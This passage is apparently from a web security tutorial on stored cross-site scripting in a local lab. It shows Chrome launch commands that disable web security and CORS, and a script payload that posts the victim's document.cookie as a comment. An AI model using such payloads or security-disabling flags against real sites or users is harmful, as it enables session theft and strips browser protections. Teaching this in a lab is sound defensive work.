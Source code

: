 ```html
                }
            };

            xhr.send();
        };
    </script>
</body>
</html>
```

In order to test this, we need to boot our browser without the CORS mitigation. The following commands boot Chrome with no security settings:

```bash
# mac
/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --disable-web-security --user-data-dir="/tmp/chrome_dev"
# windows
chrome.exe --disable-web-security --user-data-dir="C:\temp\chrome"
# linux
google-chrome --disable-web-security --user-data-dir="/tmp/chrome_dev"
```

> [CORS](https://portswigger.net/web-security/cors) is not covered in this lesson, but at a high level it enforces a policy in which requests for a site's resources are restricted to itself or a subdomain. This means we cannot request a resource from Google without them authorizing our IP/domain, which is not feasible. We can instead just boot Chrome (or another browser) with no security features, including CORS, for this brief test.

Pressing the button on the page performs the GET request and embeds the response from Google on our page! This is not particularly useful, but similar requests can be applied to the site and target of choice.

#### Forcing an Unwanted POST Request

Consider the prior message board example. Anyone can create a new comment by sending a POST request with a `comment` field to the `/create` route. What if we could influence the target to make a comment without their will? The request would look something like:

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "/create", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("comment="+document.cookie);</script>
```

> Note that we need to specify that the POST parameter is `urlencoded` so that the request puts the value (the user's cookie) in the correct place. We also do not need a callback function to handle the response, as with the previous example. 

We can wrap this code in `<script></script>` tags and attempt to send the payload `<script>var xhr = new XMLHttpRequest();xhr.open("POST", "/create", true);xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");xhr.send("comment="+document.cookie);</script>` to the server (navigate to `src/lesson12/stored_xss` and run `python3 stored_xss.py` to start it). The result is a posted comment, and navigating to the `/comments` page shows...nothing?
